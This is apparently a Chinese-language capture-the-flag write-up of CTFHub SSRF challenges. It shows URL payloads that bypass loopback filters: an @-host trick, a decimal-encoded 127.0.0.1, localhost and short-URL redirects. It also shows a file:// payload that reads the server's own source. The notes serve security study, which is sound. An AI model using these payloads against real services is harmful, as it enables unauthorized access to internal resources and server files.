 我们可以直接构造payload

```
/?url=http://notfound.ctfhub.com@127.0.0.1/flag.php
```

![image-20240119172444958](E:\学习资料\网安\笔记\笔记截图\image-20240119172444958.png)

**数字IP Bypass**

根据题目提示发现ban掉了127，172.的点分十进制IP

![image-20240119172648255](E:\学习资料\网安\笔记\笔记截图\image-20240119172648255.png)

使用ip地址转换器http://www.metools.info/other/ipconvert162.html，可以把IP转换成不同的进制

![image-20240119173306230](E:\学习资料\网安\笔记\笔记截图\image-20240119173306230.png)

发现十进制的刚好也可以使用那么我们可以构造payload

```
/?url=http://2130706433/flag.php
```

![image-20240119173501089](E:\学习资料\网安\笔记\笔记截图\image-20240119173501089.png)

**302跳转 Bypass**

![image-20240119182346899](E:\学习资料\网安\笔记\笔记截图\image-20240119182346899.png)

根据题目提示需要跳转到127.0.0.1下的flag.php直接构造payload来访问flag,发现ip被ban了查看以下源码，发现127，172等IP被禁了可以用localhost代替127.0.0.1

```
/?url=http://127.0.0.1/flag.php  
/?url=file:///var/www/html/index.php   #查看后台源代码
```

![image-20240119182924808](E:\学习资料\网安\笔记\笔记截图\image-20240119182924808.png)

![image-20240119183230094](E:\学习资料\网安\笔记\笔记截图\image-20240119183230094.png)

![image-20240119183417795](E:\学习资料\网安\笔记\笔记截图\image-20240119183417795.png)

构造payload为

```
/?url=http://localhost/flag.php
```

这里还可以用这几种方式构造payload

```
1.用localhost代替127.0.0.1

这个可以

2.利用短域名

http://surl-2.cn/0nPI

http://dwz-1.ink/0ndbh

这两个都是直接访问本地127.0.0.1/flag.php

3.这里直接进行ip地址转换为10进制

这里16进制和2进制都不行

https://www.osgeo.cn/app/sc126用这个ip地址转换
```